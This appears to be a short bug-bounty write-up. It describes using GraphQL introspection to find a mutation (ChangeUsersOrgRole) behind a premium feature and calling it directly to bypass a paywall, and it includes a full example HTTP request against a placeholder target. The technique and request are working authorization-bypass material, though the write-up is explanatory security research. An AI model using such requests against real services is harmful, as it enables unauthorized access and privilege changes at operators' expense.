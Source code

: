 # VULNERABILITIES, REPORTS AND EXPLOITS

### Bypass Paywall Using GraphQL

Some targets differentiate between free and premium features through GUI-based paywalls that block access to certain functionalities unless you pay. However, with **GraphQL introspection enabled**, I uncovered the mutation that this feature utilizes, allowing me to bypass the paywall by directly interacting with the API.

#### Steps:

1. **GraphQL**:
   * Identified the mutation being used for the restricted feature.
2. **Direct API Request**:
   * Used the mutation directly via an API request, bypassing the paywall GUI restriction.

#### Example Request:

```http
POST /t/graphql/org/{your-orgID}?q=ChangeUsersOrgRole HTTP/2
Host: app.target.com
Cookie: <your-cookie>
User-Agent: <your-user-agent>
Referer: https://app.target.com/analytics/sallam/settings/users/joined
Content-Type: application/json
X-Org: 315336
Content-Length: 557
Origin: https://app.target.com

{
  "query": "mutation ChangeUsersOrgRole($loginIds: [ID!]!, $orgRole: Int!) {\n  changeUsersOrgRole(loginIds: $loginIds, orgRole: $orgRole) {\n    ...userFields\n    __typename\n  }\n}\n\nfragment userFields on User {\n  id\n  alias\n  avatarVersion\n  blurb\n  createdAt\n  defaultAllProjectRole\n  defaultAppId\n  email\n  firstName\n  fullName\n  hasAvatar\n  hasOutstandingInvite\n  isConnectedToSlack\n  lastName\n  loginId\n  name\n  orgRole\n  orgTeam\n  title\n  pronouns\n  __typename\n}\n",
  "variables": {
    "loginIds": ["sallam@cyberar.net"],
    "orgRole": 1
  }
}
```

#### Result:

By sending this request, the paywall was bypassed, granting access to the restricted feature. This highlights how misconfigured GraphQL endpoints and exposed mutations can lead to security vulnerabilities.
